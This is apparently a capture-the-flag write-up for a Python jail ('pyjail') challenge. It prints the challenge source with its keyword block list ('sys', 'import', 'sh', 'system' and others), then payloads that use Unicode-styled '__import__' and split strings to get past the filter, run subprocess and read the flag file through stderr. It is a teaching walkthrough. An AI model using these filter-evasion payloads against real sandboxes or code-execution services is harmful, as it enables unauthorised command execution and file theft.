



# escape room (1000 points)



This challenge is a pyjail challenge wherein we need to jailbreak the python filters. 

From the source code, we can see that it filters the input on run. So we need to bypass it.

```python
import os, sys

def main():
  filter_list = ['sys', 'import', 'flag', 'open', '/', "sh", "bin", 'eval', 'exec', 'os', 'read', 'system']

  print("Please Input your Source code > ")
  user_data = ''
  while True:
    temp = input()
    if(temp == 'EOF'):
      break

    user_data += temp + '\n'

  print(user_data)
  for filter_str in filter_list:
    if filter_str in user_data:
      print("No hack plz!")
      exit(0)

  binary = compile(user_data, '<string>', 'exec')
  
  os.close(0)
  os.close(1)
  exec(binary)

if __name__ == '__main__':
  main()
```

We see that our input code will be compiled from this line of code:
```python
  binary = compile(user_data, '<string>', 'exec')
```
Our code should be in string format (UTF-8).

After compiling, file descriptor stdin and stdout will be closed.
```python
  os.close(0)
  os.close(1)
```

Then the compiled code will be executed.
```python
  exec(binary)
```

Since the `stdin` and `stdout` is closed we cannot print out the flag so  we can use `netcat` to bypass the file descriptor errors. But the only thing that is not closed yet is the `stderr`. So we can print the flag with it.

Here our first payload is to import the `subprocess` and `sys` module. Then we can use the `subprocess.Popen` to execute the `ls` command. Then we can read the output of the `ls` command and print it to the `stderr` of the `sys` module.
```python
subprocess = __𝓲𝓶𝓹𝓸𝓻𝓽__('subprocess')
SSmodule = __𝓲𝓶𝓹𝓸𝓻𝓽__('sy'+'s')

tmp = subprocess.__getattribute__('Po'+'pen')('ls', stdout=subprocess.PIPE).communicate()[0]

print(tmp, file=SSmodule.stderr)
EOF
```



Our payload is working. How does it work? Well, back to the source code. There is no rule implemented in the compiler. So we can decorate our filtered text and will be read as a valid python code.

Our final payload:

```python
subprocess = __𝓲𝓶𝓹𝓸𝓻𝓽__('subprocess')
SSmodule =  __𝓲𝓶𝓹𝓸𝓻𝓽__('sy'+'s')

tmp = subprocess.__getattribute__('Po'+'pen')(['cat', 'home\x2fctf_user\x2ffl'+'ag'], stdout=subprocess.PIPE).communicate()[0]

print(tmp, file=SSmodule.stderr)
EOF
```


